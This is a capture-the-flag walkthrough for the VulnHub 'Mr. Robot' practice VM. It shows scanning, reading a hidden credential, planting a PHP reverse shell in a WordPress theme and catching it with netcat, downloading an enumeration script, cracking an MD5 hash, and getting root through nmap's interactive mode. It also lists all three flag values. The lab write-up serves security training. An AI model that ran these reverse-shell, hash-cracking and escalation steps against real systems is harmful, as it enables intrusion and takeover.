


## mrRobot

### info

```
Based on the show, Mr. Robot.

This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.

The VM isn't too difficult. There isn't any advanced exploitation or reverse engineering. The level is considered beginner-intermediate.

https://www.vulnhub.com/entry/mr-robot-1,151/

```

### discovery

```
root@kali:~# netdiscover -r 192.168.93.0/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.93.1    00:50:56:c0:00:08      1      60  VMware, Inc.
 192.168.93.2    00:50:56:fe:26:a7      1      60  VMware, Inc.
 192.168.93.136  00:0c:29:be:ac:ff      1      60  VMware, Inc.
 192.168.93.254  00:50:56:fd:87:3c      1      60  VMware, Inc.
```

### port scan

```
root@kali:~# nmap 192.168.93.136 -p- -sV -sC

Starting Nmap 7.12 ( https://nmap.org ) at 2016-07-17 04:49 BST
Nmap scan report for 192.168.93.136
Host is up (0.00055s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 00:0C:29:BE:AC:FF (VMware)
```

### webserver https

```
root@kali:~# nikto -host  https://192.168.93.136/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.93.136
+ Target Hostname:    192.168.93.136
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=www.example.com
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /CN=www.example.com
+ Start Time:         2016-07-17 04:57:43 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x29 0x52467010ef8ad
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
+ Hostname '192.168.93.136' does not match certificate's names: www.example.com
+ The Content-Encoding header is set to "deflate" this may mean that the server is vulnerable to the BREACH attack.
+ OSVDB-3092: /admin/: This might be interesting...
+ Uncommon header 'link' found, with contents: <https://192.168.93.136/?p=23>; rel=shortlink
+ /readme.html: This WordPress file reveals the installed version.
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the secure flag
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ 7535 requests: 0 error(s) and 22 item(s) reported on remote host
+ End Time:           2016-07-17 05:11:35 (GMT1) (832 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

```
root@kali:~# curl -k https://192.168.93.136/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
```
first key found

```
root@kali:~# curl -k https://192.168.93.136/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```

```
root@kali:~# wget --no-check-certificate  https://192.168.93.136/fsocity.dic
--2016-07-17 05:00:49--  https://192.168.93.136/fsocity.dic
Connecting to 192.168.93.136:443... connected.
WARNING: The certificate of ‘192.168.93.136’ is not trusted.
WARNING: The certificate of ‘192.168.93.136’ hasn't got a known issuer.
The certificate's owner does not match hostname ‘192.168.93.136’
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’

fsocity.dic                       100%[==========================================================>]   6.91M  3.78MB/s    in 1.8s

2016-07-17 05:00:51 (3.78 MB/s) - ‘fsocity.dic’ saved [7245381/7245381]

root@kali:~# file ./fsocity.dic
./fsocity.dic: ASCII text, with very long lines

```


Nikto gave us /license

```
root@kali:~/mrrobot# curl -k https://192.168.93.136/license.txt | tr -d '\n'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   309  100   309    0     0   1088      0 --:--:-- --:--:-- --:--:--  1088
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?do you want a password or something?ZWxsaW90OkVSMjgtMDY1Mgo=
```

formatting that shows

```
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
do you want a password or something?
ZWxsaW90OkVSMjgtMDY1Mgo=
```

base64 string shows us a username and password

```
root@kali:~/mrrobot# echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```

great was able to login




### shell

browse to theme editor and change one of the pages to our php shell.

`root@kali:~/mrrobot# cp /usr/share/webshells/php/php-reverse-shell.php .`  
`root@kali:~/mrrobot# vim ./php-reverse-shell.php`



`root@kali:~/mrrobot# curl -k https://192.168.93.136/twentyfifteen/404.php`

```
root@kali:~/mrrobot# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.93.128] from (UNKNOWN) [192.168.93.136] 48861
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:18:25 up  1:51,  0 users,  load average: 4.99, 5.04, 4.30
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

use python to get a tty shell

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$
```

```
daemon@linux:/$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.2 LTS
Release:	14.04
Codename:	trusty
```
transfer over our enumeration script this one is here [LinEnum.sh](https://github.com/rebootuser/LinEnum)

```
root@kali:~/mrrobot# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
192.168.93.136 - - [17/Jul/2016 06:45:36] "GET /LinEnum.sh HTTP/1.1" 200 -

```

```
daemon@linux:/tmp$ wget http://192.168.93.128:8080/LinEnum.sh
wget http://192.168.93.128:8080/LinEnum.sh
--2016-07-18 12:27:12--  http://192.168.93.128:8080/LinEnum.sh
Connecting to 192.168.93.128:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 40155 (39K) [text/x-sh]
Saving to: 'LinEnum.sh'

100%[======================================>] 40,155      --.-K/s   in 0s

2016-07-18 12:27:12 (90.4 MB/s) - 'LinEnum.sh' saved [40155/40155]
```

output from the script shows that these a user called `robot`

```
Sample entires from /etc/passwd (searching for uid values 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002):
root:x:0:0:root:/root:/bin/bash
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
robot:x:1002:1002::/home/robot:
```

looking in this users home directory shows 2 files, we can access the password file but not the key.

```
daemon@linux:/home/robot$ ls -al
ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

```
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
```

`root@kali:~/mrrobot# echo "robot:c3fcd3d76192e4007dfb496cca67e13b" >> hash.hash`

using john to crack the md5 hash shows that the password is `ABCDEFGHIJKLMNOPQRSTUVWXYZ` as well as what looks like that in lowercase.

```
root@kali:~/mrrobot# john --wordlist=fsocity.dic  ./hash.hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2016-07-17 06:53) 0g/s 4516Kp/s 4516Kc/s 4516KC/s abcdEfghijklmnop..ABCDEFGHIJKLMNOPQRSTUVWXYZ
Session completed
```

```
daemon@linux:/home/robot$ su robot
su robot
Password: ABCDEFGHIJKLMNOPQRSTUVWXYZ
su: Authentication failure
```

hmmmm

john did give it lower too, lets try that

```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```
second key

```
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

### escalation

more information from the enumeration script shows that nmap is installed.

```
### INTERESTING FILES ####################################
Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/local/bin/nmap
/usr/bin/gcc
```

old versions of nmap allow you to run an interactive shell **as root**

```
robot@linux:/tmp$ nmap --version
nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

```
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id ; whoami
id ; whoami
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
root
```

### flag

third key found

```
pwd
/root
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
